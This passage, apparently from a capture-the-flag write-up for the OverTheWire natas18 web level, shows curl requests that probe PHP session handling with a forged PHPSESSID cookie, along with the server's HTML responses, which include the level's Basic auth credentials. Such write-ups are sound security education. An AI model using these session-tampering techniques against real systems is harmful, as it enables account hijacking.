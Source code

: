 7. we note that `password` from the form is never used

8. there is also a `debug` flag available to us

#### TRIAL AND ERROR

Supplying `username` of `admin` and `password` of `foo`, we get a new session
started for us but our `$_SESSION["admin"] == 1` check fails so we don't get
credentials printed for us.

```
$ curl 'http://natas18.natas.labs.overthewire.org/index.php?debug' \
  -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' \
  --data 'username=admin&password=foo'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
DEBUG: Session start ok<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

If we try sending our own PHPSESSID cookie, it detects that the session is
"old", it sets the `admin` flag to 0 and once again our credential check fails
to produce the password for `natas19`.

```
$ curl 'http://natas18.natas.labs.overthewire.org/index.php?debug' \
  -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' \
  -H 'Cookie: PHPSESSID=450'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
DEBUG: Session start ok<br>DEBUG: Session was old: admin flag set<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
